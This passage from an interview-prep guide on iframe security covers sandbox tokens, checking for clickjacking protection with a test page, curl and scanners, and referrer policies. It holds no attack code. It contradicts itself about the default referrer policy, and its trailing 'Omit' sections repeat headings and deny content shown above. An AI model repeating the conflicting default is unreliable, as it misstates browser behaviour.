> if an attacker finds a way to inject an `<iframe>` into your
> page, it can only load from your approved origins.
>
> *What separates good from great:* The `allow-top-navigation`
> token should NOT be in the sandbox for payment iframes. A
> compromised payment provider could otherwise redirect the top
> window to a phishing page after the user enters payment details.
> Use `allow-top-navigation-by-user-activation` if you must (3DS
> flows sometimes navigate the parent). Or better: use a popup-based
> 3DS flow with `allow-popups` instead of parent frame navigation.

---

**Q8: How do you verify a page is protected against clickjacking?**
`[JUNIOR]` SCENARIO

*Why they ask:* Testing security controls.

*Likely follow-up:* "What tools check for security headers?"

> **Answer:**
>
> Manual verification:
> ```html
> <!-- Test page: try to embed your site -->
> <!DOCTYPE html>
> <html>
> <head><title>Clickjacking Test</title></head>
> <body>
>   <iframe src="https://yoursite.com/sensitive-page"
>           width="500" height="500">
>   </iframe>
>   <p>If the iframe loads, the page is vulnerable.</p>
> </body>
> </html>
> ```
>
> If the page loads in the iframe: `X-Frame-Options` and/or
> `frame-ancestors` is missing or misconfigured.
>
> Command-line verification:
> ```bash
> curl -I https://yoursite.com/sensitive-page \
>   | grep -i "x-frame\|content-security"
>
> # Expected output:
> # x-frame-options: DENY
> # content-security-policy: frame-ancestors 'none'
>
> # If missing: page is vulnerable
> ```
>
> DevTools:
> - Network tab → select the page request → Response Headers
> - Look for `X-Frame-Options` and `Content-Security-Policy`
>
> Automated tools:
> - securityheaders.com: free, scans all common security headers
> - OWASP ZAP: full security audit including clickjacking
> - nmap + NSE scripts: `http-security-headers.nse`
>
> Lighthouse (Chrome DevTools):
> - Audit → Select all → Best Practices
> - Reports missing security headers
>
> For CI/CD: use `lighthouse-ci` or `zaproxy/action-full-scan`
> GitHub Action to check headers on each deployment.
>
> *What separates good from great:* The curl check should be part
> of automated deployment tests. A regression where someone
> accidentally removes the X-Frame-Options middleware can introduce
> clickjacking vulnerability silently. A security header check
> in the CD pipeline (run curl, grep for the header, fail the
> pipeline if missing) catches this immediately. At scale:
> include this in an HTTP API test suite that runs against staging
> before production deployment.

---

**Q9: What is the `referrerpolicy` attribute on iframes?** `[JUNIOR]`
MECHANISM

*Why they ask:* Privacy and security-relevant attribute.

*Likely follow-up:* "What is the default referrer policy?"

> **Answer:**
>
> `referrerpolicy` controls what value the `Referer` header
> contains when the iframe makes navigation or resource requests.
>
> Without `referrerpolicy`: the iframe's requests include the
> full URL of your page in the `Referer` header - leaking your
> page URL to the third-party embedded content.
>
> ```html
> <!-- User on: https://mysite.com/checkout?step=3&cart=abc123 -->
>
> <!-- DEFAULT: leaks full URL to third party -->
> <iframe src="https://analytics.thirdparty.com/widget">
> <!-- Third party receives: Referer: https://mysite.com/checkout?step=3&cart=abc123 -->
>
> <!-- PRIVATE: no referer sent -->
> <iframe src="https://analytics.thirdparty.com/widget"
>         referrerpolicy="no-referrer">
> <!-- Third party receives: no Referer header -->
>
> <!-- STRICT-ORIGIN: sends domain only (no path/query) -->
> <iframe src="https://analytics.thirdparty.com/widget"
>         referrerpolicy="strict-origin-when-cross-origin">
> <!-- Third party receives: Referer: https://mysite.com -->
> ```
>
> `referrerpolicy` values:
> - `no-referrer`: never send Referer
> - `no-referrer-when-downgrade`: default if not set
> - `origin`: send only origin (https://mysite.com)
> - `origin-when-cross-origin`: full for same-origin, origin for cross
> - `strict-origin`: origin only, no Referer on HTTPS→HTTP downgrade
> - `strict-origin-when-cross-origin`: full for same-origin, origin for cross
> - `unsafe-url`: always send full URL (not recommended)
>
> For most third-party iframes: use `no-referrer` or `strict-origin-when-cross-origin`.
>
> *What separates good from great:* The default is `strict-origin-when-cross-origin`
> in modern browsers (changed in Chrome 85, 2020). This sends
> the full URL for same-origin requests and only the origin for
> cross-origin. This means embedded third-party iframes receive
> only `https://yoursite.com` by default - not the full path.
> If your URL paths contain sensitive data (session tokens,
> user IDs in query strings), use `no-referrer` to prevent any
> leakage. The change from "send full URL" default to "send origin
> only for cross-origin" was a major privacy improvement in 2020.

---

| Interviewer Type | Emphasis |
|---|---|
| Technical Panel | sandbox tokens + clickjacking mechanism |
| Hiring Manager | Security audit + header verification |
| Bar Raiser | COEP/COOP + postMessage + Permissions Policy |
| Peer Engineer | Practical iframe embedding + sandbox config |

---

### ⚖️ Comparison Table

| Header | What It Controls | ALLOW-FROM Support | Modern? |
|---|---|---|---|
| `X-Frame-Options: DENY` | Prevents all framing | No | Legacy but supported |
| `X-Frame-Options: SAMEORIGIN` | Same-origin only | No | Legacy but supported |
| `CSP: frame-ancestors 'none'` | Prevents all framing | Yes (list) | Preferred |
| `CSP: frame-ancestors 'self'` | Same-origin only | Yes (list) | Preferred |

| Sandbox Token | Grants | Risk Level |
|---|---|---|
| `allow-scripts` | JavaScript execution | Low (no same-origin) |
| `allow-forms` | Form submission | Medium |
| `allow-popups` | Open windows | Medium |
| `allow-same-origin` | Origin access | High (alone) |
| `allow-top-navigation` | Redirect parent | High |
| `allow-scripts allow-same-origin` | Both | CRITICAL - avoid |

---

### 🏛️ System Design

*(Omit: not a ★★★ keyword.)*

---

### 📊 Diagram

```
CLICKJACKING ATTACK:
  Attacker page:
  [Decoy: "Click for prize!"]
  [Transparent iframe overlay (opacity:0)]
    └── bank.com "Confirm Transfer" button

  User sees: prize button
  User clicks: bank transfer executes

DEFENSE:
  bank.com sends:
  X-Frame-Options: DENY
  → Browser refuses to render bank.com in iframe
  → Transparent overlay shows blank
  → Clickjacking fails
```



> **Diagram walkthrough:** The clickjacking attack relies entirely
> on the browser rendering the victim site inside an invisible
> iframe. The `X-Frame-Options: DENY` response header instructs
> the browser to refuse rendering the page when it appears inside
> an iframe, regardless of which page is doing the embedding.
> When the browser sees this header in the bank.com response, it
> renders nothing in the iframe - the overlay is blank. The
> attacker's UI trick fails because there's nothing to click
> through to. This is a pure HTTP-header-based defense: no
> JavaScript, no UI changes required.

---

### 💻 Code Example

*(Omit: this concept does not have a programmatic interface that can be demonstrated in code. The conceptual explanation above is sufficient.)*


---

### 🏛️ System Design

*(Omit: system design diagram not applicable for this concept - see ★★★ keywords for full system design coverage.)*


---

### ⚖️ Comparison Table

*(Omit: this is a ★☆☆ foundational concept with no direct alternatives to compare - see higher-difficulty keywords for trade-off analysis.)*


---

### 📊 Diagram

*(Omit: no standalone visual diagram required for this concept - the explanations and code examples above provide sufficient clarity.)*


